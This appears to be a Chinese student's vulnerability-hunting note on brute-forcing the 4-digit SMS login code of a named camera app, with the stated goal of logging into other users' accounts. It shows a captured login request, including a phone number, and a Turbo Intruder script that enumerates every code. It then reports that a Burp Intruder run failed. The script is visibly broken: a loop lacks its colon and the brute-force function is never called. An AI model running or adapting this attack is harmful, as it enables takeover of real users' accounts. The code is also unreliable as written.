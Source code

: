 ```yaml
---
tags:
  - 漏洞挖掘
---
```

>当大家在网站或者app上点击发送短信验证码后，有没有发现过: 当你尝试了好几次错误输入之后，再输入正确的短信验证码，仍然能登录成功。
>原因：这就是验证码没有设置错误次数上限，很多网站和APP都存在这个漏洞，虽然简单，但存在确实很广泛。

“星眼”APP， 一个摄像头的APP客户端。这里就存在这个漏洞，可以登录其他人的账号。 
## 1. 配置 burp 抓手机包
通过[配置步骤](https://szukevin.site/2020/08/16/BurpSuite%E6%8A%93IOS%E8%AE%BE%E5%A4%87HTTPS%E6%B5%81%E9%87%8F/)可以用burpsuit抓手机的包
在“星眼”app注册账号，登陆时，当我们点击发送登陆验证码，随便输入比如1782，然后抓包。以下是抓到的登陆请求：
```text
POST /login/VerificationCode HTTP/1.1
Host: xyx.wiki
Accept: */*
Content-Type: application/json
Content-Length: 47
Version: 1.6
Terminaltype: ios
User-Agent: StarEyeCN/1.6 (iPhone; iOS 17.0; Scale/3.00)
Accept-Language: zh-Hans-CN
Accept-Encoding: gzip, deflate
Connection: close

{"validateCode":"1782","telephone":15898529966}
```

## 2. 为 turbo intruder 写脚本
根据[参考代码](https://blog.csdn.net/m0_49835838/article/details/125584169 )写出如下脚本:

```python
from itertools import product

def brute_verify_code_4(target, engine):
    pattern = "0123456789"
    # itertools 模块中的 product 函数：生成所有由 pattern 中字符组成的 4 位长度的排列组合(元组类型)
    for i in list(product(pattern, repeat = 4)) 
        code = ''.join(i)
        # 将元组i中的元素（一个个字符）连接成一个字符串 code
        # 例如，('0', '1', '2', '3') -> 0123
        engine.queue(target.req, code)

def queueRequests(target, wordlists):
    engine = RequestEngine(
        endpoint=target.endpoint,
        concurrentConnections=30,                   
        requestsPerConnection=100,
        pipeline=True
    )

def handleResponse(req, interesting):
    table.add(req)
```

但是老师说要并发请求才用这个，这里直接用自带的intruder来爆破即可
## 3. 使用 intruder 爆破
太慢，可以尝试：
- 改一下线程数
- 在vps爆破（不懂）

把数据包发送到intruder中，从0000到9999进行爆破：
![[CleanShot 2023-07-26 at 00.06.33@2x.png]]
![[CleanShot 2023-07-26 at 00.07.20@2x.png]]
但是爆破完显示所有返回结果都相同(length均为198，按道理会有一个不同的)...均为false...没有成功
暂不知道为啥
![[CleanShot 2023-07-26 at 00.09.27@2x.png]]
